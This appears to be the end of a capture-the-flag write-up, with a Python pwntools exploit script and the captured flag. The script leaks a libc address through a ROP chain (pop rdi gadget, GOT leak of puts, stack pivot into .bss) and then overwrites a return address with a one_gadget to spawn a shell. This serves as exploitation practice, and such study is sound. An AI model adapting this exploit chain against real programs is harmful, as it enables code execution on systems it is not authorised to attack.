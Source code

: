```python

    sBss =      0x555555558020
    sBuffer =   0x5555555587d8 # this offset is due to the new stack being in the bss that is to much short to the stack of functions like printf and scanf
    offsetToPayload = sBuffer - sBss
    bufferBss = e.bss() + offsetToPayload + 8 # this + 8 is just for alignment


    addrMain55 = e.symbols["main"] + 55
    # 0x000000000000145b: pop rdi; ret;
    gadgetPopRdi = 0x000000000000145b + e.address
    rop = convert_case(p64(gadgetPopRdi))
    rop += convert_case(p64(e.got["puts"]))
    rop += convert_case(p64(addrMain55)) # puts
    rop += convert_case(p64(bufferBss)) # to put inside of RBP due to pop at the end of main
    rop += convert_case(p64(e.symbols["menu"] + 110))



    payload = b"GARBAGEE" # just for alignment
    payload += rop.ljust(0x48, b"N")
    payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting
    payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain

    r.sendafter(b" 69 characters)", payload)

    r.recvuntil(b"garbagee")
    r.recvline()
    output = r.recvline()

    leakPuts = output[:-1]
    leakPuts = u64(leakPuts.ljust(8, b"\x00"))
    log.info(f"leakPuts: {hex(leakPuts)}")

    libc.address = leakPuts - libc.symbols["puts"]
    log.info(f"libc: {hex(libc.address)}")

    #-----------------------------------------------------------------------------------------------------

    finalPayload = b"K"*0x40
    finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
    r.sendlineafter(b" characters", finalPayload)

    r.interactive()

if __name__ == "__main__":
    # author: s1gn3rs
    main()
```

---

## Flag

```
gigem{f1x3d_d3buG6iN_y3t_st1Ll_f1aWeD_3da42ce3} <- First Blood
```
